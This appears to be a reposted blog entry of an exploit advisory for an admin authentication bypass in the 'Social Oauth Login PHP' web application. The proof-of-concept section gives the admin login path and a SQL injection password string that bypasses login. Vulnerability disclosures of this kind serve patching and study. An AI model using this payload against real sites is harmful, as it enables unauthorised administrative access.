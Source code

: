 ```yaml
---
inFeed: true
description: ''
dateModified: '2018-02-14T16:15:04.687Z'
datePublished: '2018-02-15T00:59:28.254Z'
datePublishedOriginal: '2018-02-15T00:59:28.254Z'
title: ''
author: []
publisher: {}
via: {}
starred: false
sourcePath: _posts/2018-02-15-5101e82d-b58b-4f31-bdf7-65646f51b54b.md
_type: Article
_context: 'http://schema.org'

---
```

> \# Exploit Title: Social Oauth Login PHP - Authentication Bypass
> \# Dork: N/A
> \# Date: 2018-02-12
> \# Exploit Author: Borna nematzadeh (L0RD) or borna.nematzadeh123@gmail.com
> \# Vendor Homepage: https://www.codester.com/items/4554/social-oauth-login-php
> \# Version: All version
> \# Category: Webapps
> \# CVE: N/A
> \# \# \# \# \#
> \# Description:
> \# With this exploit,attacker can bypass admin login authentication.
> \# \# \# \# \#
> \# Proof of Concept :
> http://localhost/PATH/adminLogin.php
> \# Username : anything
> \# Password : ' or ''='